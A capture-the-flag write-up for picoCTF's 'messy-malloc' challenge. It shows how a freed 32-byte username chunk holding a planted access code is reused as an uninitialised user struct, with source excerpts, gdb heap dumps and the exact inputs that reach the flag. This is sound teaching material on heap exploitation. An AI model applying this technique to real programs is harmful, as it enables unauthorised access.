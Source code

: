 # messy-malloc 300 points (pwn, pico, heap, unclear-memory)

Notes:
- source code given: yes
- binary given: yes

### Enumerations
This was my first heap-exploitation challenge. I've spend some time reading through tutorials before I've approached it.

The program itself allows user to perform some basic actions:

![](img/actions.png)

We can see that to obtain the flag we have to login as a user with a correct access code.

```c
void print_flag() { // simplified
  [...] // read flag

  unsigned long ac1 = ((unsigned long *)u->access_code)[0];
  unsigned long ac2 = ((unsigned long *)u->access_code)[1];
  if (ac1 != 0x4343415f544f4f52 || ac2 != 0x45444f435f535345) {
    fprintf(stdout, "Incorrect Access Code: \"");
    return;
  }
  
  puts(flag);
}
```

The user structure is defined as:

```c
struct user {
  char *username;
  char access_code[ACCESS_CODE_LEN];
  char *files; // unused
};
```

So my first idea was to look for every place where the `access_code` is set.
But here comes the surprice! There is no such place in the code! Moreover I couldn't spot any vulnerabilities like buffer overflow etc. Challenge name clearly indicates to look for malloc connected vulnerability. And I've found it. When we call malloc, the memory is not initialized:

![](img/manmalloc.png)

This means that when we call malloc, the returned memory is not initialized to zeros. It can contain data from previous usage. Amazing! Now we just have to find a way to fill part of memory with correct access code and later on find a way to allocate a `struct user` on this part of memory.

When we look at the commands which we can invoke, we see that:

```c
int login() { // simplified
  u = malloc(sizeof(struct user));

  int username_len;
  puts("Please enter the length of your username");
  scanf("%d", &username_len);

  char *username = malloc(username_len+1);
  u->username = username;

  puts("Please enter your username");
  fgets(username, username_len, stdin);
  [...]
}
```

that `login` function allocates space for both `struct user` and for `username`,

```c
int logout() {
  char *user = u->username;
  if (u == &anon_user) {
    return -1;
  }
  else {
    free(u);
    free(user);
    u = &anon_user;
  }
  return 0;
}
```

while `logout` function frees the above allocated memory.

### Exploit
As an attacker we don't control the fields of `struct user`, but we do control the `username`. So attack is quite simple. Let's first allocate memory for `username` and place correct access code within it. Secondly free that memory, so it get's back to free memory pool and finaly allocate a new `struct user` in the same place so the access_code field is initialized with `ROOT_ACCESS_CODE`.

As ` struct user` is 32 byte size the malloc uses `fastbins 32 byte` for it, so we need to make our `username` same size.

Let's see our exploit under `gdb`. 

```bash
gdb -q auth
```

We will start with setting breakpoint at `fgets` command which asks for command.

```gdb
gdb-peda$ pd main
[...]
  0x0000000000400d38 <+209>:	mov    esi,0x100
  0x0000000000400d3d <+214>:	call   0x400860 <fgets@plt>
  0x0000000000400d42 <+219>:	test   rax,rax
[...]
End of assembler dump.
gdb-peda$ b *0x0000000000400d3d
Breakpoint 2 at 0x400d3d: file /usr/include/x86_64-linux-gnu/bits/stdio2.h, line 262.
gdb-peda$ c
Continuing.
Commands:
	login - login as a user
	print-flag - print the flag
	logout - log out
	quit - exit the program

Enter your command:
[anon]>
```

Now let's allocate and fill with our access_code the memory using `login` function.
As username length we pass 31 as login function allocates one more byte for null byte. When asked for username we prefix our access_code with 8 bytes of junk. This is because this 8 bytes will be a pointer to username.
```gdb
gdb-peda$ c
Continuing.
login
Please enter the length of your username
31
Please enter your username
AAAAAAAAROOT_ACCESS_CODE
```

Now let's take a look at a heap memory layout.

```gdb
gdb-peda$ vmmap 
[...]
0x00603000         0x00624000         rw-p	[heap]
[...]
gdb-peda$ x/256gx 0x00603000
[...]
0x603660:	0x0000000000000000	0x0000000000000031
0x603670:	0x00000000006036a0	0x0000000000000000
0x603680:	0x0000000000000000	0x0000000000000000
0x603690:	0x0000000000000000	0x0000000000000031
0x6036a0:	0x4141414141414141	0x4343415f544f4f52
0x6036b0:	0x45444f435f535345	0x0000000000000000
0x6036c0:	0x0000000000000000	0x0000000000020941
0x6036d0:	0x0000000000000000	0x0000000000000000
[...]
```

We can see that [0x603660 - 0x60368f] chunk contains the `struct user` allocated by login function. Block 0x00000000006036a0 is a `char *username` field of this struct pointing to [0x6036a0-0x6036bf] username chunk.

Now let's free that memory so we can later allocate new user in place of username.

```gdb
gdb-peda$ c
logout
gdb-peda$ x/256gx 0x00603000
[...]
0x603660:	0x0000000000000000	0x0000000000000031
0x603670:	0x0000000000000000	0x0000000000000000
0x603680:	0x0000000000000000	0x0000000000000000
0x603690:	0x0000000000000000	0x0000000000000031
0x6036a0:	0x0000000000603670	0x4343415f544f4f52
0x6036b0:	0x45444f435f535345	0x0000000000000000
0x6036c0:	0x0000000000000000	0x0000000000020941
[...]
```

Note that not much has changed. The memory hasn't been zerod as we expected even though it is now marked as free. We can tell this by observing that
[0x603670-0x603678] now instead of pointer to username contains 0x0000000000000000. This is because when fastbin chunk is unallocated it has `struct malloc_chunk* fd;` poiting to next free chunk. As [0x603660-0x60367f] is a head of a free fastbin 32byte chunk list, the `fd` points to NULL.
The [0x6036a0-0x6036a8] points to 0x0000000000603670 and is a tail of fastbin 32byte chunk list.

Now let's login as a new user and examine the heap.

```gdb
gdb-peda$ c
Continuing.
login
Please enter the length of your username
31
Please enter your username
BBBBBBBBBBBBBBBBBBBBBBBB
gdb-peda$ x/256gx 0x00603000
[...]
0x603660:	0x0000000000000000	0x0000000000000031
0x603670:	0x4242424242424242	0x4242424242424242
0x603680:	0x4242424242424242	0x0000000000000000
0x603690:	0x0000000000000000	0x0000000000000031
0x6036a0:	0x0000000000603670	0x4343415f544f4f52
0x6036b0:	0x45444f435f535345	0x0000000000000000
0x6036c0:	0x0000000000000000	0x0000000000020941
[...]
```

Can you see how the new `struct user` has been allocated in place of previous `username`?
If not, then use this useful trick (the program might has to be compiled with -g flag):

```gdb
gdb-peda$ set $u=(struct user*) 0x6036a0
gdb-peda$ p *$u
$3 = {
  username = 0x603670 'B' <repeats 24 times>, 
  access_code = "ROOT_ACCESS_CODE", 
  files = 0x0
}
```

Now all we have to do is to call a print-flag function:

```gdb
gdb-peda$ c
Continuing.
print-flag
picoCTF{XXXXXXXXXXXXXXXXX}
```

